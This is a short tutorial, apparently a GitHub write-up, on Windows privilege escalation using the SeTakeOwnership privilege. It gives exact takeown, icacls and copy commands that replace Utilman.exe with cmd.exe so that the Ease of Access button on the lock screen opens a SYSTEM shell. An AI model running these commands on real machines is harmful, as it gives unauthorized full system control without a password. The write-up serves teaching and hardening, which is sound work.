




# Exploiting the high privileges of Utilman.exe (Utility Manager)  using SeTakeOwnership privilege

- SeTakeOwnership : is a Windows privilege that allows a user to take ownership of any object in Windows (files, folders, registry keys , …) even if they currently have no permission on it .

! Ownership allows modification of the object’s permissions (DACL).

### Objective:

- Get a high privileged shell .

### Vulnerability Overview :

- Having the SeTakeOwnership privilege can be exploitedto gain access to protected objects, allowing the attacker to modify or replace executed binaries.
- **Ultiman.exe or Utility Manager** is a legitimate Windows accessibility that can be launched from the login screen . it runs as SYSTEM, before authentication and with very high privileges .

so an attacker who has the ownership of utilman.exe can replace it with cmd.exe , powershell.exe or a backdoor 

⇒ Ease of access button —> and get a SYSTEM shell without password.

### Required condition:

- The attacker must have **SeTakeOwnershipPrivilege**, which allows them to take ownership of protected files and then modify their permissions (DACL).

### Enumeration / Discovery:

- list your  own privileges with : `whoami /priv`

!!! cmd should be run as administrator.

### Exploitation Steps :

1. **Take the ownership of the file utilman.exe :**

`takeown /f C:\Windows\System32\Utilman.exe`

1. **Give Full permissions to your account :**

`icacls C:\Windows\System32\Utilman.exe /grant Your_Account:F`

1. **Replace utilman.exe by cmd.exe :**

`copy C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe`

1. **Lock the screen and click on Ease of access button**

since we have cmd.exe instead of utilman.exe , we got directly a high privilege shell :

### Key Takeaways :

- Privilege enumeration is essential
- Least‑privilege principle is critical
